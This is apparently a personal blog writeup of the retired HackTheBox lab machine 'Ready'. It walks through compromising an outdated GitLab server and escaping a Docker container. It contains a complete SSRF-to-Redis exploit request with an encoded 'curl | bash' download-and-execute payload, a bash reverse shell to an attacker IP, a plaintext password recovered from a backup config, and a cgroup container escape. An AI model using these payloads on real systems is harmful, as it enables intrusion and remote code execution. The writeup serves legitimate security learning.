 Title:HTB: Ready
Date: 05-16-2021 09:20
category:security
tags:security, boot2root, HTB, gitlab, docker
meta:security, boot2root, HTB, gitlab, docker

<img class="align-left" src="/media/2021.05/ready_card.png" alt="Ready card" width="262">

This is a writeup about a retired HacktheBox machine:
[Ready](https://www.hackthebox.eu/home/machines/profile/304) published on
December 12 2020 by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897)
This box is classified as a medium machine. This box implies an outdated gitlab
server, a clear text password in a backup file and a docker container.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 5080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sun Dec 13 03:40:16 2020 as: nmap -p- -sSV -oN nmap 10.129.29.192
    Nmap scan report for 10.129.29.192
    Host is up (0.014s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    5080/tcp open  http    nginx
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Dec 13 03:40:48 2020 -- 1 IP address (1 host up) scanned in 31.28 seconds

## Web

The HTTP service is once again a gitlab (my latest rooted box is laboratory TODO
link if already published) server. This time the version is 11.4.7. A Google
research "gitlab 11.4.7 exploit" lead us to a
[blog article about an RCE on gitlab during a CTF](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

Following the blog exploitation we end up with a request looking like the
following and can validate the RCE using a python server on our kalibox.

    :::text
    POST /projects HTTP/1.1
    Host: 10.129.29.192:5080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.129.29.192:5080/projects/new
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 1073
    Origin: http://10.129.29.192:5080
    Connection: close
    Cookie: _gitlab_session=140270c33fe803d8ab11d0f9a85c45cf; sidebar_collapsed=false
    Upgrade-Insecure-Requests: 1

    utf8=%E2%9C%93&authenticity_token=%2BEHyUYosjkfZlzfMEpR8QFZ%2BWiJMAQQ%2BTiB3Wt%2FNK0fNBNX9EhAKd6VM6okCvVQ0fZ6HxSBzQdo%2Fx4Lfe4nDCw%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%38%3a%38%30%30%30%2f%72%65%76%32%2e%73%68%20%7c%20%62%61%73%68%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=&project%5Bnamespace_id%5D=6&project%5Bpath%5D=ttreqqq139&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0

We can even just manually import a git project using the following "git url":
`git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Cxxxxxxxxx%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git` and replacing the payload `xxxxxxxxxxx` with our own URL encoded.

We send the following payload `curl http://10.10.14.18:8000/rev2.sh | bash`.

The content of rev2.sh is the following:

    :::bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.18/4443 0>&1

We run a netcat listener to catch our reverse shell. We end up with a shell as
`git` that can read the user flag.

    :::text
    kali@kali:~$ nc -l -p 4443
    bash: cannot set terminal process group (485): Inappropriate ioctl for device
    bash: no job control in this shell
    git@gitlab:~/gitlab-rails/working$ id
    id
    uid=998(git) gid=998(git) groups=998(git)
    git@gitlab:/$ find / -name 'user.txt' 2>/dev/null
    find / -name 'user.txt' 2>/dev/null
    /home/dude/user.txt
    git@gitlab:/$ cat /home/dude/user.txt
    cat /home/dude/user.txt
    e1e30b052b6ec0670698805d745e7682

# Root

## Enumeration

We enumerate a few file and find the `/opt/backup/` directory which contain a few
files. The file `gitlab.rb` contain a smtp password.

    :::text
    git@gitlab:/opt/backup$ grep -i pass gitlab.rb
    grep -i pass gitlab.rb
    #### Email account password
    # gitlab_rails['incoming_email_password'] = "[REDACTED]"
    #     password: '_the_password_of_the_bind_user'
    #     password: '_the_password_of_the_bind_user'
    #   '/users/password',
    #### Change the initial default admin password and shared runner registration tokens.
    # gitlab_rails['initial_root_password'] = "password"
    # gitlab_rails['db_password'] = nil
    # gitlab_rails['redis_password'] = nil
        gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
    # gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
    ##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
    # postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
    # postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
    # redis['password'] = 'redis-password-goes-here'
    ####! **Master password should have the same value defined in
    ####!   redis['password'] to enable the instance to transition to/from
    # redis['master_password'] = 'redis-password-goes-here'
    # geo_secondary['db_password'] = nil
    # geo_postgresql['pgbouncer_user_password'] = nil
    #     password: PASSWORD
    ###! generate this with `echo -n '$password + $username' | md5sum`
    # pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
    #     password: MD5_PASSWORD_HASH
    # postgresql['pgbouncer_user_password'] = nil

We need an interactive shell to be able to input a password, we use python for
that purpose and end up with a shell as root.

    :::text
    git@gitlab:~/gitlab-rails/working$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    <orking$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    git@gitlab:~/gitlab-rails/working$ su
    su
    Password: wW59U!ZKMbG9+*#h

    root@gitlab:/var/opt/gitlab/gitlab-rails/working# id
    id
    uid=0(root) gid=0(root) groups=0(root)

Nonetheless we cannot find any `root.txt` file. As you probably already guess or
notice we are in a docker container.

## Docker escape

We run [deepce](https://github.com/stealthcopter/deepce): Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
We use a python server on our kalibox to transfer the script using `wget --recursive --no-parent http://10.10.14.18:8000`.
And we run it.

    :::text
    <SNIP>
    [+] Privileged Mode ......... Yes
    The container appears to be running in privilege mode, we should be able to access the
    raw disks and mount the hosts root partition in order to gain code execution.
    See https://stealthcopter.github.io/deepce/guides/docker-privileged.md
    <SNIP>

An other quick Google research allow us to find a [medium article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1)
to learn more about docker's privilege mode with a few command line to execute a
command on the system. We just replace the `echo "ps aux > $host_path/output" >> /cmd` line
with `echo "cat /root/root.txt > $host_path/output" >> /cmd` and grab the root
hash.

    :::text
    <SNIP>
    root@gitlab:/tmp/.plop# echo "cat /root/root.txt > $host_path/output" >> /cmd
    echo "cat /root/root.txt > $host_path/output" >> /cmd
    root@gitlab:/tmp/.plop# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    root@gitlab:/tmp/.plop# cat /output
    cat /output
    b7f98681505cd39066f67147b103c2b3

# Wrapping up

The box is not that hard (less than laboratory [TODO LINK]) and quit interesting
as the exploitation of the gitlab's SSRF and its upgrade to an RCE was really
interesting and detailed on the blog article.


